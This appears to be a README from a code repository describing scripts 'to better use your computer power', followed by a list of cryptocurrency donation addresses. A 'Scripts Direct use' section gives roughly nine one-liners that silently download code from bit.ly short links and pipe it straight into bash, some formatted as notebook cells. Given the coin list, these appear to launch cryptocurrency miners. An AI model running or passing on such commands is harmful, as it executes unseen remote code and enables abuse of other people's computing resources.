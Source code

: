 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA: addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -q -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RV20001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/IBM0001 2> lol.out | bash 

wget -q -O - bit.ly/ET00001 2> lol.out | bash 

wget -q -O - bit.ly/RVET0001 2> lol.out | bash 

wget -q -O - bit.ly/XM00001 2> lol.out | bash 

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0001 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0002 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TesT0003 | bash

## Solo M


